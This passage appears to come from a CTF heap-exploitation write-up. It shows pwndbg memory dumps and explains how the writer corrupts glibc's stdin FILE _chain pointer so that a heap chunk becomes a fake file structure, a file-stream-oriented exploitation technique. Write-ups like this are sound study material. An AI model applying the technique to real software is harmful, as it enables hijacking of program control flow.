```
0x555555589790: 0x0000555555589210      0x0000555555589250
0x5555555897a0: 0x0000555555589290      0x00005555555892d0
0x5555555897b0: 0x0000555555589310      0x0000555555589350
0x5555555897c0: 0x0000555555589390      0x00005555555893d0
0x5555555897d0: 0x0000555555589410      0x0000555555589450
```

So we need to fire these johns, and put one of them in `_IO_2_1_stdin->_chain`.

```
pwndbg> p *(FILE *)&_IO_2_1_stdin_
$1 = {
  _flags = -72540024,
  _IO_read_ptr = 0x5555555872b0 'a' <repeats 200 times>...,
  _IO_read_end = 0x5555555872b0 'a' <repeats 200 times>...,
  _IO_read_base = 0x5555555872b0 'a' <repeats 200 times>...,
  _IO_write_base = 0x5555555872b0 'a' <repeats 200 times>...,
  _IO_write_ptr = 0x5555555872b0 'a' <repeats 200 times>...,
  _IO_write_end = 0x5555555872b0 'a' <repeats 200 times>...,
  _IO_buf_base = 0x5555555872b0 'a' <repeats 200 times>...,
  _IO_buf_end = 0x5555555882b0 "",
  _IO_save_base = 0x0,
  _IO_backup_base = 0x0,
  _IO_save_end = 0x0,
  _markers = 0x0,
  _chain = 0x555555589250, <-- overwrote _chain!
  _fileno = 0,
  _flags2 = 0,
  _old_offset = -1,
  _cur_column = 0,
  _vtable_offset = 0 '\000',
  _shortbuf = "",
  _lock = 0x15555514e720,
  _offset = -1,
  _codecvt = 0x0,
  _wide_data = 0x15555514c9c0,
  _freeres_list = 0x0,
  _freeres_buf = 0x0,
  _prevchain = 0x0,
  _mode = -1,
  _unused2 = '\000' <repeats 19 times>
}
```

Then, we need to consider which one of them should be our lucky worker that
becomes the fake file. We can go with john23, because we do need a little space
above john23 provided by john22 so that the fd and bk pointers, added when our
payload chunk is freed, will not interfere with our fake file.

```
pwndbg> x/32gx 0x555555589200
0x555555589200: 0x0000000000000000      0x0000000000000201 <-- start of unsorted chunk
0x555555589210: 0x000015555514cb20      0x0000555555588a80
0x555555589220: 0x000032326e686f00      0x0000000000000000
0x555555589230: 0x0000000000000000      0x0000000000000000
0x555555589240: 0x0000000000000000      0x00000000000001c1
0x555555589250: 0x000055555558b390      0x000015555514cb20 <-- _chain points here
0x555555589260: 0x000033326e686f00      0x0000000000000000
0x555555589270: 0x0000000000000000      0x0000000000000000
0x555555589280: 0x0000000000000000      0x0000000000000181
0x555555589290: 0x000055555558b390      0x000015555514cb20
0x5555555892a0: 0x000034326e686f00      0x0000000000000000
0x5555555892b0: 0x0000000000000000      0x0000000000000000
0x5555555892c0: 0x0000000000000000      0x0000000000000141
0x5555555892d0: 0x000055555558b390      0x000015555514cb20
```